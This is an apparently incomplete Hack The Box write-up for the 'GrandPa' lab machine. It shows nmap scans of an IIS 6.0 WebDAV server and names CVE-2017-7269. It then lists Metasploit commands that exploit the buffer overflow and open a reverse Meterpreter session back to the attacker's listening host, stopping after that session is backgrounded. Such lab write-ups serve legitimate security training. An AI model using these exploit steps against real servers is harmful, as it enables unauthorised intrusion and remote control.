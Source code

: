 # HAck the Box - GrandPa (INCOMPLETE)

```CSS
Machine IP: 10.10.10.14 - Windows
Buffer Overflow (CVE-2017-7269)
```

### Port Scanning and Service Discovery
```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 1000 10.10.10.14 -oA nmap.surface

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 10:40 IST
Nmap scan report for 10.10.10.14
Host is up (0.090s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 80 10.10.10.14 -oA nmap.deep

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 10:43 IST
Nmap scan report for 10.10.10.14
Host is up (0.088s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Fri, 31 Mar 2023 05:13:46 GMT
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.89 seconds
```

### Checking for known Vulnerabilities:
![image](https://user-images.githubusercontent.com/83878909/229031974-84d9cf71-7f1b-49cb-b635-a053b238c4fc.png)

![image](https://user-images.githubusercontent.com/83878909/229034116-9125f8ce-83b2-4949-9b83-fd6426814ee8.png)
- [Read More...](https://www.fortinet.com/blog/threat-research/buffer-overflow-attack-targeting-microsoft-iis-6-0-returns)

![image](https://user-images.githubusercontent.com/83878909/229046417-4fd0508a-18d5-44e3-9537-e4dbb5a207d2.png)

### Search Exploit
- Name: `ScStoragePathFromUrl`
- Search Metasploit
![image](https://user-images.githubusercontent.com/83878909/229046789-aeee25e3-5734-4b54-89a3-67b7a29e8a55.png)

### Exploit
#### User Access
```CSS
msf6> use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf6> set RHOSTS 10.10.10.14
msf6> set LHOST 10.10.14.34
msf6> exploit
```
![image](https://user-images.githubusercontent.com/83878909/229052744-ef9e0f9b-9225-4d1b-92f4-c82e487d5e79.png)
![image](https://user-images.githubusercontent.com/83878909/229055181-d755ef79-b391-491d-aaab-4a7fe0258e39.png)

#### Root Access
- `Ctrl+C`
```CSS
meterpreter> background


```

